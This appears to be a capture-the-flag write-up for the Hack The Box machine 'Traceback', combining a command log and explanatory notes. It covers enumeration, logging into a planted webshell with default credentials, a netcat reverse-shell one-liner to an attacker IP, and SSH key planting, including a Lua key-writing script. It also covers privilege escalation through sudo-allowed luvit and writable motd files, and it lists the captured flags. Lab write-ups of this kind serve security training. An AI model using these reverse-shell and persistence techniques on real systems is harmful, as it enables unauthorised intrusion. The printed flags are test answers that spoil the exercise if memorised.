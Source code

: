# Traceback - Easy

```shell
sudo vim /etc/hosts
#add traceback.htb

nmap -T4 -p- -A -Pn -v traceback.htb

gobuster dir -u http://traceback.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml -t 50

#search for uploaded webshells
ffuf -u http://traceback.htb/FUZZ -w /usr/share/wordlists/seclists/Web-Shells/backdoor_list.txt
#this gives us smevk.php

nc -nvlp 4444
#execute reverse shell one-liner

whoami
#webadmin

which python3

#upgrade to stable shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
#use Ctrl+Z to background shell

stty raw -echo; fg
#press enter twice

ls -la /opt

ls -la /home

ls -la /home/webadmin

cd /home/webadmin
#check note and .bash_history

ls -la .ssh
#we can add our authorized keys here

#in attacker machine
ssh-keygen -f webadmin
#generates webadmin and webadmin.pub

cat webadmin.pub
#copy public key

#paste it in webadmin .ssh
echo "ssh-rsa ... " > .ssh/authorized_keys

#now we can login via SSH
ssh -i webadmin webadmin@traceback.htb

#in attacker machine
python3 -m http.server

#in ssh
wget http://10.10.14.4:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

sudo -l
#we can run luvit program as 'sysadmin' user

sudo -u sysadmin /home/sysadmin/luvit
#we can exit this

#command from .bash_history
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
#this gives traceback error

#create program to write SSH key for sysadmin
#in attacker machine
ssh-keygen -f sysadmin

cat sysadmin.pub
#copy public key

vim writekeys.lua
#program to write to /home/sysadmin/.ssh/authorized_keys

python3 -m http.server

#in ssh session
wget http://10.10.14.4:8000/writekeys.lua

sudo -u sysadmin /home/sysadmin/luvit writekeys.lua
#executed without error

#ssh as sysadmin
ssh -i sysadmin sysadmin@traceback.htb

bash
#use bash shell

ls -la
#get user flag

#run linpeas

ls -la /etc/update-motd.d/
#these files are writable
#we can make them print root flag

cd /etc/update-motd.d/

vi 00-header
#delete the message line
#and enter 'cat /root/root.txt'

#in a new tab, log into SSH
#get root flag printed
ssh -i sysadmin sysadmin@traceback.htb
```

```lua
file = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
io.output(file)
io.write("ssh-rsa...")
io.close(file)
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.29

* Checking the webpage, it seems to be 'owned'; furthermore, it mentions that it has left a backdoor.

* Going through the source code of the webpage, we can see a comment - "Some of the best web shells that you might need"

* We can begin to scan the web directories using ```gobuster``` to check for clues.

* From the info enumerated on webpage so far, we can see that there is a backdoor uploaded - we can attempt to fuzz it using ```ffuf```.

* For this fuzzing operation, we can use a wordlist specifically made for webshells and backdoors.

* Googling the comment we found earlier gives us this [repo](https://github.com/TheBinitGhimire/Web-Shells)

* We can create a wordlist using these webshell names; alternatively we can use the ```backdoor_list.txt``` wordlist from ```seclists```.

* Using ```ffuf```, we can search for the webshell; we get a file 'smevk.php' with status code 200.

* Visiting /smevk.php, we are greeted with a login page for the backdoor - we can check this webshell from the repo found earlier and we get the creds "admin:admin".

* We can login using these creds, giving us access to the backdoor dashboard.

* This contains a field for 'Execute', and we can execute commands here.

* We can setup a listener, and execute the reverse-shell liner command here to get reverse shell:

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.4 4444 >/tmp/f```

* We now get shell as 'webadmin'; we can stabilize our shell now.

* We have a home directory for webadmin, we can check that out.

* The home directory contains 'note.txt', which suggests the presence of a ```Lua``` tool.

* There is also webadmin's '.bash_history' file, which shows there is a file 'privesc.lua' in another user's (sysadmin) home directory.

* Now, there is a .ssh folder with empty 'authorized_keys'; we can add our own here in order to login via SSH.

* Once we login via SSH, we can check for privesc vectors using ```linpeas```.

* Using ```sudo -l```, we can see that we can run '/home/sysadmin/luvit' as 'sysadmin' user.

* We know that the .bash_history file contained a 'sudo' command run as sysadmin, and it included a .lua file.

* So, with the help of the script, we can also run our own .lua files.

* We can create a .lua program to write our SSH keys into sysadmin's .ssh folder, similar to how we did with webadmin.

* We do not need to use ```chmod 600``` in this case as the authorized_keys file would already exist.

* After writing the Lua script, we can transfer it to the victim SSH session, and run it using ```luvit``` program.

* Then, we can login as sysadmin via SSH, and get user flag.

* Running ```linpeas``` as sysadmin user shows some interesting group writable files.

* The message-of-the-day files in '/etc/update-motd.d/' files are group-writable - we can use that to our advantage.

* The '00-header' file is printed every time someone logs in via SSH, so we can edit this to print root flag.

* We can get root flag by logging into SSH in a new tab.

```markdown
1. User flag - 22a716001f74b092a8e9810d993948cd

2. Root flag - 76a1155af3a5f5d3e9084e2c87eeb104
```
